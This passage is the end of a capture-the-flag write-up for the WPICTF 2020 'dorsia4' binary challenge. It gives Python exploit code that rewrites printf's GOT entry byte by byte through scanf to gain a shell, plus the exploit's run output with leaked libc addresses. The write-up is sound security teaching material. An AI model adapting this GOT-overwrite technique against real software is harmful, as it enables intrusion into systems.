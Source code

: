 Expect an 84% chance of getting the flag.

There's probably enough data in [test1000.out.gz](test1000.out) to find the address(es) that is causing the SIGSEGVs, but at this point it is not that interesting of a problem.


#### _write-what-where_ the exploit

```python
for i in range(1,len(_)):
    for j in range(3):
        if (_[i-1] ^ _[i]) & (0xFF << j*8) != 0:
            b = (_[i] & (0xFF << j*8)) >> j*8
            print("put " + str(hex(b)) + " in " + str(j))
            p.sendline(str(hex(0x100000000 - (binary.symbols['a'] - binary.got['printf']) + j)) + " " + str(hex(b)))
            break
print()
```

Finally.  This will loop through the found path, determine the byte and the position and then finally input into `scanf` the address of the byte to be changed (`0x100000000 - (binary.symbols['a'] - binary.got['printf']) + j`) and the byte.

> I should have replaced that inner loop with 3 `if` statements for readability.


#### Get a shell, get the flag

```python
p.interactive()
```

Just type `cat flag.txt`.


#### Output

```
# ./exploit.py
[*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done
[*] '/pwd/datajerk/wpictf2020/dorsia4/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system:  0x7f69251ad440
libc:    0x7f692515e000
printf:  0x7f69251c2e80
dprintf: 0x7f69251c3180
gadget:  0x7f69251ad322

computing safe addresses...1 seconds
building graph...12 seconds

path found (len: 14):

0x1c2e80
0x1c3180
0x1c3171
0x283171
0x283183
```